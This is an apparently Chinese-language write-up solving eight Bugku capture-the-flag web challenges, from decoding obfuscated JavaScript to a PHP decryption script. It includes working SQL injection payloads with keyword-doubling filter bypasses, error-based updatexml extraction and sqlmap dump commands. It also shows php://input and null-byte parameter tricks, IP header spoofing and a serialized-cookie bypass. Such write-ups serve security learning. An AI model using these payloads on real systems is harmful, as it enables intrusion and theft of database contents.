


## 1、web4

```
$p1 = '%66%75%6e%63%74%69%6f%6e%20%63%68%65%63%6b%53%75%62%6d%69%74%28%29%7b%76%61%72%20%61%3d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%70%61%73%73%77%6f%72%64%22%29%3b%69%66%28%22%75%6e%64%65%66%69%6e%65%64%22%21%3d%74%79%70%65%6f%66%20%61%29%7b%69%66%28%22%36%37%64%37%30%39%62%32%62';
$p2 = '%61%61%36%34%38%63%66%36%65%38%37%61%37%31%31%34%66%31%22%3d%3d%61%2e%76%61%6c%75%65%29%72%65%74%75%72%6e%21%30%3b%61%6c%65%72%74%28%22%45%72%72%6f%72%22%29%3b%61%2e%66%6f%63%75%73%28%29%3b%72%65%74%75%72%6e%21%31%7d%7d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%6c%65%76%65%6c%51%75%65%73%74%22%29%2e%6f%6e%73%75%62%6d%69%74%3d%63%68%65%63%6b%53%75%62%6d%69%74%3b';

eval(unescape($p1) + unescape('%35%34%61%61%32' + $p2));
```

```js
function checkSubmit(){
  var a=document.getElementById("password");
  if("undefined"!=typeof a){
    if("67d709b2b54aa2aa648cf6e87a7114f1"==a.value)
      return!0;
    alert("Error");
    a.focus();
    return!1
  }
}
document.getElementById("levelQuest").onsubmit=checkSubmit;
```


## 2、nerver nerver give up

看源码1d.html，抓包。没有有用信息

访问1d.html再抓包

抓包：

得到js脚本：

```
var Words ="%3Cscript%3Ewindow.location.href%3D%27http%3A//www.bugku.com%27%3B%3C/script%3E%20%0A%3C%21--JTIyJTNCaWYlMjglMjElMjRfR0VUJTVCJTI3aWQlMjclNUQlMjklMEElN0IlMEElMDloZWFkZXIlMjglMjdMb2NhdGlvbiUzQSUyMGhlbGxvLnBocCUzRmlkJTNEMSUyNyUyOSUzQiUwQSUwOWV4aXQlMjglMjklM0IlMEElN0QlMEElMjRpZCUzRCUyNF9HRVQlNUIlMjdpZCUyNyU1RCUzQiUwQSUyNGElM0QlMjRfR0VUJTVCJTI3YSUyNyU1RCUzQiUwQSUyNGIlM0QlMjRfR0VUJTVCJTI3YiUyNyU1RCUzQiUwQWlmJTI4c3RyaXBvcyUyOCUyNGElMkMlMjcuJTI3JTI5JTI5JTBBJTdCJTBBJTA5ZWNobyUyMCUyN25vJTIwbm8lMjBubyUyMG5vJTIwbm8lMjBubyUyMG5vJTI3JTNCJTBBJTA5cmV0dXJuJTIwJTNCJTBBJTdEJTBBJTI0ZGF0YSUyMCUzRCUyMEBmaWxlX2dldF9jb250ZW50cyUyOCUyNGElMkMlMjdyJTI3JTI5JTNCJTBBaWYlMjglMjRkYXRhJTNEJTNEJTIyYnVna3UlMjBpcyUyMGElMjBuaWNlJTIwcGxhdGVmb3JtJTIxJTIyJTIwYW5kJTIwJTI0aWQlM0QlM0QwJTIwYW5kJTIwc3RybGVuJTI4JTI0YiUyOSUzRTUlMjBhbmQlMjBlcmVnaSUyOCUyMjExMSUyMi5zdWJzdHIlMjglMjRiJTJDMCUyQzElMjklMkMlMjIxMTE0JTIyJTI5JTIwYW5kJTIwc3Vic3RyJTI4JTI0YiUyQzAlMkMxJTI5JTIxJTNENCUyOSUwQSU3QiUwQSUwOXJlcXVpcmUlMjglMjJmNGwyYTNnLnR4dCUyMiUyOSUzQiUwQSU3RCUwQWVsc2UlMEElN0IlMEElMDlwcmludCUyMCUyMm5ldmVyJTIwbmV2ZXIlMjBuZXZlciUyMGdpdmUlMjB1cCUyMCUyMSUyMSUyMSUyMiUzQiUwQSU3RCUwQSUwQSUwQSUzRiUzRQ%3D%3D--%3E" 
function OutWord()
{
var NewWords;
NewWords = unescape(Words);
document.write(NewWords);
} 
OutWord();
```

url解码Words：

```
<script>window.location.href='http://www.bugku.com';</script> 
<!--JTIyJTNCaWYlMjglMjElMjRfR0VUJTVCJTI3aWQlMjclNUQlMjklMEElN0IlMEElMDloZWFkZXIlMjglMjdMb2NhdGlvbiUzQSUyMGhlbGxvLnBocCUzRmlkJTNEMSUyNyUyOSUzQiUwQSUwOWV4aXQlMjglMjklM0IlMEElN0QlMEElMjRpZCUzRCUyNF9HRVQlNUIlMjdpZCUyNyU1RCUzQiUwQSUyNGElM0QlMjRfR0VUJTVCJTI3YSUyNyU1RCUzQiUwQSUyNGIlM0QlMjRfR0VUJTVCJTI3YiUyNyU1RCUzQiUwQWlmJTI4c3RyaXBvcyUyOCUyNGElMkMlMjcuJTI3JTI5JTI5JTBBJTdCJTBBJTA5ZWNobyUyMCUyN25vJTIwbm8lMjBubyUyMG5vJTIwbm8lMjBubyUyMG5vJTI3JTNCJTBBJTA5cmV0dXJuJTIwJTNCJTBBJTdEJTBBJTI0ZGF0YSUyMCUzRCUyMEBmaWxlX2dldF9jb250ZW50cyUyOCUyNGElMkMlMjdyJTI3JTI5JTNCJTBBaWYlMjglMjRkYXRhJTNEJTNEJTIyYnVna3UlMjBpcyUyMGElMjBuaWNlJTIwcGxhdGVmb3JtJTIxJTIyJTIwYW5kJTIwJTI0aWQlM0QlM0QwJTIwYW5kJTIwc3RybGVuJTI4JTI0YiUyOSUzRTUlMjBhbmQlMjBlcmVnaSUyOCUyMjExMSUyMi5zdWJzdHIlMjglMjRiJTJDMCUyQzElMjklMkMlMjIxMTE0JTIyJTI5JTIwYW5kJTIwc3Vic3RyJTI4JTI0YiUyQzAlMkMxJTI5JTIxJTNENCUyOSUwQSU3QiUwQSUwOXJlcXVpcmUlMjglMjJmNGwyYTNnLnR4dCUyMiUyOSUzQiUwQSU3RCUwQWVsc2UlMEElN0IlMEElMDlwcmludCUyMCUyMm5ldmVyJTIwbmV2ZXIlMjBuZXZlciUyMGdpdmUlMjB1cCUyMCUyMSUyMSUyMSUyMiUzQiUwQSU3RCUwQSUwQSUwQSUzRiUzRQ==-->
```

对注释的值base64解码

```
%22%3Bif%28%21%24_GET%5B%27id%27%5D%29%0A%7B%0A%09header%28%27Location%3A%20hello.php%3Fid%3D1%27%29%3B%0A%09exit%28%29%3B%0A%7D%0A%24id%3D%24_GET%5B%27id%27%5D%3B%0A%24a%3D%24_GET%5B%27a%27%5D%3B%0A%24b%3D%24_GET%5B%27b%27%5D%3B%0Aif%28stripos%28%24a%2C%27.%27%29%29%0A%7B%0A%09echo%20%27no%20no%20no%20no%20no%20no%20no%27%3B%0A%09return%20%3B%0A%7D%0A%24data%20%3D%20@file_get_contents%28%24a%2C%27r%27%29%3B%0Aif%28%24data%3D%3D%22bugku%20is%20a%20nice%20plateform%21%22%20and%20%24id%3D%3D0%20and%20strlen%28%24b%29%3E5%20and%20eregi%28%22111%22.substr%28%24b%2C0%2C1%29%2C%221114%22%29%20and%20substr%28%24b%2C0%2C1%29%21%3D4%29%0A%7B%0A%09require%28%22f4l2a3g.txt%22%29%3B%0A%7D%0Aelse%0A%7B%0A%09print%20%22never%20never%20never%20give%20up%20%21%21%21%22%3B%0A%7D%0A%0A%0A%3F%3E
```

再URL解码：

```
";if(!$_GET['id'])
{
	header('Location: hello.php?id=1');
	exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.')) 
{
	echo 'no no no no no no no';
	return ;
}
$data = @file_get_contents($a,'r');
if($data=="bugku is a nice plateform!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
	require("f4l2a3g.txt");
}
else
{
	print "never never never give up !!!";
}


?>
```

stripos($a,'.') stripos汉化为找.出现的第一个位置（从0开始），

a可以用..绕过 a=php://input/  bugku is a nice plateform!

id=abc

b=%00123456

请求改为post请求即可获得flag


## 3、web8

看源码：

```php
<?php
  extract($_GET);
if (!empty($ac))
{
  $f = trim(file_get_contents($fn));
  if ($ac === $f)
  {
    echo "<p>This is flag:" ." $flag</p>";
  }else{
    echo "<p>sorry!</p>";
  }
}?>
```

fn 读的文件

ac 不为空

ac的值和fn读的文件内容相同，所以fn可以用php伪协议:php://input，post传入的值和ac相等

具体见web8.py


## 4、细心

打开发现kange 3.5.5。

用dirb扫描

```
---- Scanning URL: http://123.206.87.240:8002/web13/ ----
+ http://123.206.87.240:8002/web13/index.php (CODE:200|SIZE:489)
+ http://123.206.87.240:8002/web13/robots.txt (CODE:200|SIZE:36)
```

打开robots.txt发现可以进入esusl.php

进入esusl.php



猜测x，分别另x为password,120.52.147.52,admin

最后在admin时正确。


## 5、神奇的登录框

打开网页，发现可能是sql注入。

将抓包存的文件放到denglukuang文件，然后用sqlmap跑

```
sqlmap -r "denglukuang" -p admin_name --dbs

sqlmap -r "denglukuang" -p admin_name -D bugkusql1 --tables

sqlmap -r "denglukuang" -p admin_name -D bugkusql1 -T flag1 --column

sqlmap -r "denglukuang" -p admin_name -D bugkusql1 -T flag1 --dump
```

得到flag1为 ed6b28e684817d9efcaf802979e57aea

md5解密不能解

换思路：

看另一张表：

```
sqlmap -r "denglukuang" -p admin_name -D bugkusql1 -T whoami --column
```

扫描出：

```
+------+-----------+----------------------------------+
| w_id | w_name    | w_passwd                         |
+------+-----------+----------------------------------+
| 1    | AdMiNhEhE | 9db3bae8316e95698ed679aa109c1925 |
| 2    | BlCkJaCk  | 5FF69C838EDD75995197C516C677A416 |
+------+-----------+----------------------------------+
```

<http://www.ttmd5.com/index.php?lang=cn>

网址解密第一条信息得密码：

admin123

登录后没反应。

再换思路，将flag的密文直接提交

即flag{ed6b28e684817d9efcaf802979e57aea}

## 6、多次

http://123.206.87.240:9004/1ndex.php?id=1

改一下id发现是sql注入题

http://123.206.87.240:9004/1ndex.php?id=1'%23,且发现是盲注

接下来测试被过滤的关键字：

```
id=1' %23 #成功，空格没被过滤
id=1' or 1 %23 #错误，or被过滤
1' and 1 %23 #错误，and被过滤，用anandd成功绕过
id=1' oorr 1 %23 #成功
id=1' oorrder by 1 %23 #成功，5,3均失败，2成功可知为两列
id=1' union select 1,2 %23 #错误，union或者select被过滤
id=1' union seselectlect 1,2 %23 #失败
id=1' ununionion select 1,2 %23 #失败
id=1' ununionion seselectlect 1,2 %23 #成功，union和select都被过滤

```

现在开始查表列字段

```
id=-1' ununionion seselectlect 1,2 %23 #回显2可以发现第二个字段回显
id=-1' ununionion seselectlect 1,database() %23 #数据库web1002-1
id=-1' ununionion seselectlect 1,group_concat(table_name) from infoorrmation_schema.tables where table_schema=database() %23 #表名flag1,hint
-1' ununionion seselectlect 1,group_concat(column_name) from infoorrmation_schema.columns where table_name='flag1' %23  #列名flag1,address
id=-1' ununionion seselectlect 1,group_concat(flag1) from flag1 %23 #flag1:usOwycTju+FTUUzXosjr提交发现错误
GET /1ndex.php?id=-1' ununionion seselectlect 1,group_concat(address) from flag1 %23
回显：
<center><font  color= '#fff'>./Once_More.php<br /><a href=./Once_More.php?id=1>下一关地址</a><br></font></center>

```

得到下一关地址

./Once_More.php

```
Once_More.php?id=1    #Hello,I Am Here!
Once_More.php?id=100  #Nobody
Once_More.php?id=1'    #有明显错误回显

```

order by 语句测试发现有两列

id=1' and length((select 123)) > 1%23 发现select没有被过滤

id=1' union select 1,2 %23     #出错，union被过滤，而且各种方法绕不过，决定用报错注入

报错注入：

id=1' and updatexml(0x31,concat(0x31,((select database()))),0x31) %23

数据库：

web1002-2


id=1' and updatexml(0x31,concat(0x31,((select group_concat(table_name) from information_schema.tables where table_schema='web1002-2'))),0x31) %23

表名：

class,flag2


id=1' and updatexml(0x31,concat(0x31,((select group_concat(column_name) from information_schema.columns where table_name='flag2'))),0x31) %23

列名：

flag2,address


id=1' and updatexml(0x31,concat(0x31,((select group_concat(flag2) from flag2))),0x31) %23

得到flag

flag{Bugku-sql_6s-2i-4t-bug}

说了flag均为小写，所以flag为flag{bugku-sql_6s-2i-4t-bug}


id=1' and updatexml(0x31,concat(0x31,((select group_concat(address) from flag2))),0x31) %23

得到address：

Have_Fun.php

再下一关：

源码：

```
<!DOCTYPE html>
<html>
<head>
	<title>Have_Fun</title>
	<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<!-- <style>
html,body{
	padding: 0;
	margin: 0;
	background-color: #fff;
}
Only IP'1234' can access this site.
<style>  -->
</head>
<body>                        
</body>
</html>
<center><font  color= '#fff'>YOUR IP:120.52.147.45<br />Sorry,Only IP:192.168.0.100 Can Access This Site<br /><br></font></center>
```

抓包改请求头：




访问图片得到一个二维码，扫码后得到：

你……你……你可以看到我?
好吧，我来自于ErWeiMa.php
顺便告诉你两个密码
one:参数名是game;
tow:flag在admin里
对了,文件后@…c=Y&$as%_=#\*ad…\*@#*&@…c……

然后不会了~~~~

提交先前的flag即可

## 7、PHP_encrypt_1(ISCCCTF)

密文：fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=

下载文件得到源码：

```php
<?php
function encrypt($data,$key)
{
    $key = md5('ISCC');#729623334f0aa2784a1599fd374c120d
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);#32
    for ($i=0; $i < $len; $i++) { 
        if ($x == $klen)  #如果key中的索引等于32，变为0
        {
            $x = 0;
        }
        $char .= $key[$x]; #连接key中的每个字符
        $x+=1;
    }
    #char的值为729623334f0aa2784a1599fd374c120d多遍填充，直到长度等于data长度
    for ($i=0; $i < $len; $i++) {
        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
    return base64_encode($str);
}
?>

```

看懂逻辑后写解密脚本：

```php
<?php
function decrypt($str)
{
    $char = $data = '';
    $str = base64_decode($str);
    $key = md5('ISCC');#729623334f0aa2784a1599fd374c120d
    $x = 0;
    $len = strlen($str);
    $klen = strlen($key);#32
    for ($i=0; $i < $len; $i++) {
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x];
        $x+=1;
    }

    for ($i=0; $i < $len; $i++) {
        $data .= chr((128 + ord($str[$i]) - ord($char[$i])) % 128);
    }
    echo $data;
    return $data;
}
$str = "fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=";
decrypt($str)
?>

```


## 8、flag.php

输入参数hint=1


```php
 <?php
error_reporting(0);
include_once("flag.php");
$cookie = $_COOKIE['ISecer'];
if(isset($_GET['hint'])){
    show_source(__FILE__);
}
elseif (unserialize($cookie) === "$KEY")
{   
    echo "$flag";
}
else {
?>
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>Login</title>
<link rel="stylesheet" href="admin.css" type="text/css">
</head>
<body>
<br>
<div class="container" align="center">
  <form method="POST" action="#">
    <p><input name="user" type="text" placeholder="Username"></p>
    <p><input name="password" type="password" placeholder="Password"></p>
    <p><input value="Login" type="button"/></p>
  </form>
</div>
</body>
</html>

<?php
}
$KEY='ISecer:www.isecer.com';
?> 
```

可以发现很奇怪的地方在于unserialize(\$cookie) === "\$KEY"在$KEY被赋值的后面。

所以\$KEY在开始的时候为变为空，因为外面有双引号，所以"$KEY"变为一个字符串，且是空字符串，所以只要将空字符串序列化即可。

即将cookie变为ISecer=s:0:"";然后发送请求

